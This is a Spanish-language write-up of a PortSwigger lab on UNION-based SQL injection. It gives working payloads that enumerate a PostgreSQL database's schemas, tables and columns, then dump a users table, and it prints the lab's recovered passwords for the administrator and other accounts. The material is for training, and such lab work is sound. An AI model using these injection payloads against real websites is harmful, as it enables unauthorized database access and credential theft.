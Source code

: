 ```yaml
---
title: SQL injection attack, listing the database contents on non-Oracle databases - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


En este laboratorio tendremos que obtener las credenciales y un usuario para el panel, para poder ingresar

![20240802110008.png](20240802110008.png)

Luego de testear si el sitio web es vulnerable y obtener el numero de columnas de la consulta podemos enumerar las bases de datos.

```c
' UNION SELECT NULL,SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA--
```

Las base de datos que encontramos son:

```c
information_schema
public
pg_catalog
```

Enumeramos las tablas de la base de datos `public`

```c
' UNION SELECT NULL,concat(table_name) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='public'--
```

La tabla mas interesante es:

```c
users_tfwutl
```

Teniendo la tabla podemos enumerar las columnas

```c
Pets' UNION SELECT NULL,concat(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users_tfwutl' AND table_schema='public'--
```

En la tabla `users_tfwutl` encontraremos las siguientes columnas

```c
email
password_asolxf
username_dvwvhv
```

Luego podemos los datos de las columnas de `username_dvwvhv` y `password_asolxf`

```c
Pets' UNION SELECT NULL,concat(password_asolxf,':',username_dvwvhv) FROM users_tfwutl--
```

![20240802111927.png](20240802111927.png)

Las credenciales que obtenemos son las siguientes:

```c
5ioo396gjqa2rj62iedr:administrator
4mu7ry6821m5fbk6nwxv:wiener
9xk9bm2thl7y9o8aerae:carlos
```
